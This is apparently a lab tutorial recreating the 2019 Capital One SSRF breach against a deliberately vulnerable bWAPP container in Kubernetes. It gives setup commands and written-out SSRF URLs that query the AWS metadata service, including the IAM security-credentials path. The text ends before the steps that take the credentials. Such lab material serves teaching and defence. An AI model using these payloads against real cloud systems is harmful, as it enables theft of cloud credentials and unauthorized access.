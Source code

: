 ==========================
SSRF Attack - CapitalOne
==========================

On 19th July 2019 **CapitalOne** was breached by an ex-aws employee exploiting a vulnerability on its Web Application Firewall (WAF) using Server Side Request Forgery, popularly known as SSRF attack.

.. image:: https://raw.githubusercontent.com/araalinetworks/attacks/main/images/ssrfwhat.png
 :width: 650
 :alt: what is ssrf?

Using the vulnerability, the attacker was able to download IAM credentials from AWS meta-data service, which is how AWS manages IAM roles to guard access to amazon resources. Underneath its API, AWS transparently rotates the short-lived credentials served by the metadata service.

For the demo, we will use an open-source app used for web attack testing called bwApp that has the same vulnerability.

There are 2 parts to this setup

1) Setup a container running vulnerable bWAPP where we can run SSRF attack
2) Get credential and access AWS S3

.. image:: https://raw.githubusercontent.com/araalinetworks/attacks/main/images/ssrfdemosetup.png
 :width: 650
 :alt: what is ssrf?

Running the Vulnerable container in Kubernetes
==============================================

**Container:** 

We have already created a container with a vulnerable bWAPP app and its present at - quay.io/araalinetworks/ssrf

Download the deployment yaml and save it as deployment.yaml

Apply this file in your Kubernetes cluster in a specific namespace

.. code-block:: RST

    $ kubectl create ns bg-ssrf
    $ kubectl apply -f deployment.yaml -n bg-ssrf

Check (1) if the pods are running, and (2) get the External IP of the exposed service

.. image:: https://raw.githubusercontent.com/araalinetworks/attacks/main/images/ssrfgetposvc.png
 :width: 650
 :alt: kubectl get pods

Now open a browser and check if the app is up and running, by logging into the external IP on port 80

http://20.81.5.36/install.php

Click on 'here' (Click 'here' to install bWAPP).

.. image:: https://raw.githubusercontent.com/araalinetworks/attacks/main/images/ssrfinstall.png
 :width: 350
 :alt: frond end of the app

If you see the screen above, Congratulations! we have completed the first part.


Attacking the App
==================================

Now pass attack parameter in the browser

1) Get information from metadata service

.. code-block:: RST
    
  http://20.81.5.36/rlfi.php?language=http://169.254.169.254/latest/meta-data&action=go

Replace 20.81.5.36 with your external-IP

2) Get IAM Role assigned to the container

.. code-block:: XML

   http://20.81.5.36/rlfi.php?language=http://169.254.169.254/latest/meta-data/iam/security-credentials&action=go

